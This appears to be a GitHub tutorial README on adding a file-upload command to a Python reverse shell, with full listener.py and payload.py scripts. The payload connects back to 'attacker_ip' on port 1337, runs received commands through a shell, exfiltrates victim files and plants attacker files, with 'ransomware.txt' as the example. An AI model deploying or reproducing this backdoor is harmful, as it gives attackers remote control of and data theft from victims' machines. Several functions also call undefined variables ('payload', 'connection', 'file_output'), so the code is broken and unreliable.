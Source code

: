 <h2 align="center">Upload Functionality</h2>
<p align="center"><img width="350" height="350" src="./src/banner_cnph.gif"></p>

Upload command is the opposite of download command

command : `upload ransomware.txt`

If the command is starting from zero index

`cmd[0:`

Slice into two parts, first part starts with `U`  in `upload`</br>
which will be at the zero index up to the exclusion position

`cmd[0:6] -> upload`

You can start with initial index since the zero is optional

`cmd[:6] -> upload`

The [6:7] index would be the whitespace inbetween the two slice</br>
Second part starts with [7] index till last index

`cmd[7:] -> ransomware.txt`

- - - - - - - - - - - - - - - - - - - - - -
> [listener.py](listener.py)
```python
import socket
import subprocess

listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

listener.bind(("attacker_ip", 1337))

listener.listen()

print("Server has started")

connection, address = listener.accept()

# Send the data to the client on a victims' machine
# Add send_data() function same as the one in payload.py
def send_data(ouput_data):
    size_of_data = len(ouput_data)             # cannot directly send any file
    size_of_data = str(size_of_data)           # need to convert it into bytes
    payload.send(bytes(size_of_data, "utf-8")) # send the data in form of bytes
    payload.send(ouput_data)

def recv_data():
    original_size = connection.recv(2048).decode("utf-8")
    original_size = int(original_size)
    
    data = connection.recv(2048)
    while len(data) != original_size:
        data = data + connection.recv(2048)
    return data

while True:
	try: 
		cmd = input("enter a command: ")
		
		if cmd == "quit":
			connection.send(b"quit")
			connection.close()
			break

		elif cmd[:2] == "cd":
			connection.send(bytes(cmd, "utf-8"))
			recv = recv_data()
			print(recv.decode("utf-8"))
			continue

		elif cmd[:8] == "download":
			connection.send(bytes(cmd, "utf-8"))

			file_output = recv_data()
			if file_output == b"No file found":
				print(file_output.decode("utf-8"))
				continue

			with open(f'{cmd[9:]}', 'wb') as write_data:
				write_data.write(file_output)
				write_data.close()
			continue 

		# Add new command with the first 6 letter 'upload'
		elif cmd[:6] == "upload":
			# File name start with [7:] index
			# Open a file that is needed to upload with open() functionality
			# Read the file from client and send to server with 'rb' for read binary
			with open(f'{cmd[7:]}', 'rb') as data: # Read as data
				file_data = data.read() # Call the read() function to read file data
				data.close() # Close the file after reading
			# Pass the file to send the data
			send_data(file_data)
			continue 
			
		connection.send(bytes(cmd, "utf-8"))
		
		output = recv_data()
		print(output.decode("utf-8"))
	
	except FileNotFoundError:
		print("File Not Found")
		send_data(b"Error")
	except subprocess.CalledProcessError:
		send_data(b"Wrong command")

print("Server has stopped")
```

> [payload.py](payload.py)
```python
import socket
import subprocess

import os

payload = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

payload.connect(("attacker_ip", 1337))

print("Connected")

def send_data(ouput_data):
    size_of_data = len(ouput_data)
    size_of_data = str(size_of_data)
    payload.send(bytes(size_of_data, "utf-8"))
    payload.send(ouput_data)

# Receive data from the server
# Add recv_data() function same as the one in listener.py
def recv_data():
    original_size = connection.recv(2048).decode("utf-8")
    original_size = int(original_size)
    
    data = connection.recv(2048)
    while len(data) != original_size:
        data = data + connection.recv(2048)
    return data
 
while True:
	try: 
		cmd = payload.recv(2048)
		cmd = cmd.decode("utf-8")
		
		if cmd == "quit":
			payload.close()
			break
		
		elif cmd[:2] == "cd":
			os.chdir(cmd[3:])
			
			send_data(b"Changed directory")
			continue

		elif cmd[:8] == "download":
			with open(f'{cmd[9:]}', 'rb') as data:
				data_read = data.read()
				data.close()

				send_data(data_read)
				continue
		
		# Add new command with the first 6 letter 'upload'
		elif cmd[:6] == "upload":
			# Receive the data that is sent from server
			data = recv_data() # Data received will be in bytes
			# Check if the data has any error
			if data == b"Error":
				continue
			# Otherwise, we upload or copy the content of data we receive
			with open(f'{cmd[7:]}', 'wb') as write_data: # Create a new file in write mode
				write_data.write(file_output) # Paste the contents of data in bytes
				write_data.close()
			continue 

		output = subprocess.check_output(cmd, shell = True)

		send_data(output)

	except FileNotFoundError:
		print("File Not Found")
		send_data(b"Error")
	except subprocess.CalledProcessError:
		send_data(b"Wrong command")

print("Disconnected")
```
